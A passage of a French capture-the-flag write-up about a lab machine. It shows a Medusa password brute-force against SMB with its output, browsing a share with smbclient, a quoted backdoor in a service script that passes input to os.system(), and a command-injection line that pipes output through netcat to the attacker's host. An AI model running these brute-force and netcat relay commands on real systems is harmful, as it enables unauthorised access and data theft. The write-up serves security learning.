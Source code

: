 ```plain
$ medusa -h 10.1.1.12 -u root -P passwords.txt -M smbnt
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [smbnt] Host: 10.1.1.12 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: root (1 of 7 complete)
ACCOUNT CHECK: [smbnt] Host: 10.1.1.12 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: bidule (2 of 7 complete)
ACCOUNT CHECK: [smbnt] Host: 10.1.1.12 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: lovely (3 of 7 complete)
ACCOUNT FOUND: [smbnt] Host: 10.1.1.12 User: root Password: lovely [SUCCESS (ADMIN$ - Share Unavailable)]
```

Etna
----

On peut désormais accéder à ce partage SMB (mais pas au compte SSH petits malins) :  

```plain
$ smbclient -U root -I 10.1.1.12 //phoenix/scripts
WARNING: The "syslog" option is deprecated
mkdir failed on directory /var/run/samba/msg.lock: Permission non accordée
Unable to initialize messaging context
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 23 20:25:02 2018
  ..                                  D        0  Sun Sep 16 11:50:19 2018
  test.py                             A        0  Wed Jun 13 19:52:43 2018
  fucking_coffee.py                   A      672  Thu Jun 14 22:09:10 2018
  hackerutils.py                      A      486  Thu Jun 14 22:09:10 2018
  hangover.py                         A     1216  Thu Jun 14 22:09:10 2018
  admin-console.py                    N     2462  Sat Jun 23 20:34:44 2018

        5774684 blocks of size 1024. 3091832 blocks available
```

Le script qui nous intéresse ici est *admin-console* qui correspond au service sur le port 2003.  

Les lignes intéressantes sont les suivantes :  

```python
if  "tom33094" in (data) :
    client.send("Welcome Tom ! ".encode())
    client.send("String ? ".encode())
    stringo = client.recv(1024).decode()
    execute(stringo)
```

La fonction *execute()* appelle *os.system()*. On peut donc faire exécuter des commandes sans obtenir l'output, à moins de relayer via le *netcat* présent sur la machine :  

```plain
Username ? tom33094
Welcome Tom ! String ? whoami | nc 10.254.0.29 9999
```

